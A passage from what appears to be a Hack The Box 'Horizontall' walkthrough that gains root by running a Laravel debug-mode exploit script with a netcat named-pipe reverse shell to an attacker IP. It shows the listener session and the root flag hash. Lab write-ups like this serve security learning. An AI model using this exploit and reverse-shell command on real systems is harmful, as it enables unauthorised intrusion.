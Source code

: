 Now visiting the domain 'http://127.0.0.1:8000' revealing a Laravel website. 

![](/docs/images/horizontall/horizontall5.png)

Using the debug mode exploit, a shell can be gained on the root user of the system. 


#### Root account foothold

```
❯ ./49424.py http://127.0.0.1:8000 /home/developer/myproject/storage/logs/laravel.log 'mkfifo /tmp/p; nc 10.10.14.99 16666 0</tmp/p | /bin/sh > /tmp/p 2>&1; rm /tmp/p'

Exploit...

```



```
❯ nc -lvnp 16666
Connection from 10.10.11.105:48202
pwd
/home/developer/myproject/public
cd
ls
boot.sh
pid
restart.sh
root.txtcat root.txt
b65c80d2e2ecae0c11cff2ba03ef44f3
```





